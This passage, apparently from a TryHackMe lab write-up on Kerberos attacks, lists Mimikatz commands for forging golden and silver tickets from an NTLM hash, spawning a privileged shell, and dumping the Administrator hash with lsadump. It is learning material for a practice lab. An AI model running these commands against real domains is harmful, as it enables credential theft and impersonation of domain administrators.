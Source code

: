 As the task said "This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103."

golden
```cmd
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt:<NTLM HASH> /id:500
```

silver
```cmd
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt:<NTLM HASH> /id:1103
```

![](/assets/images/thm/kerberos/mimikatz3.png)

This will spawn a new command prompt with the privileges of the new ticket
```cmd
misc::cmd
```


Do the first step we did to dump the NTLM hash but change the name to Administrator
```cmd
lsadump::lsa /inject /name:Administrator
```

The output will provide your answer for the task.
![](/assets/images/thm/kerberos/mimikatz-admin.png)
